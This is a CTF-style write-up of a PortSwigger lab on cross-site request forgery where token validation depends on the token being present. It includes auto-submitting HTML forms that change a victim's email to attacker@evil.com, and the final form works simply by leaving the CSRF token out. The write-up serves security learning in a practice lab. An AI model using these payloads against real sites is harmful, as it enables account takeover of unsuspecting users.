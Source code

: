 # CSRF where token validation depends on token being present

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present), you'll learn: CSRF where token validation depends on token being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005004.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005026.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005030.png)

**In the previous labs, we found that the email change functionality is vulnerable to CSRF.**

**Let's inspect the form!**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="NyEhcWXR4C1lk7nt89xf9bXUnIqycDQL">
    <button class='button' type='submit'> Update email </button>
</form>
```

**As you can see, there is a CSRF token!**

**Now, we can try to exploit CSRF via the `exploit server`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005149.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005201.png)

**To do so, I'll try to craft a CSRF form including an invalid CSRF token that performs CSRF attack:**
```html
<html>
	<head>
		<title>CSRF-3</title>
	</head>
	<body>
		<form action="https://0a7b000103e23b4fc097dbfe00370008.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="LQDcyqInUXb9fx98tn7kl1C4RXWchEyN">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005541.png)

**We can test it locally via the `View exploit` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005609.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005620.png)

As expected, it outputs `Invalid CSRF token`.

**To bypass the CSRF token, we try to not include the CSRF token:**
```html
<html>
	<head>
		<title>CSRF-3</title>
	</head>
	<body>
		<form action="https://0a7b000103e23b4fc097dbfe00370008.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005743.png)

**Then test it locally:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005800.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005811.png)

It works!!

**Now, let's change other users' email!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005843.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005852.png)

We did it!

# What we've learned:

1. CSRF where token validation depends on token being present
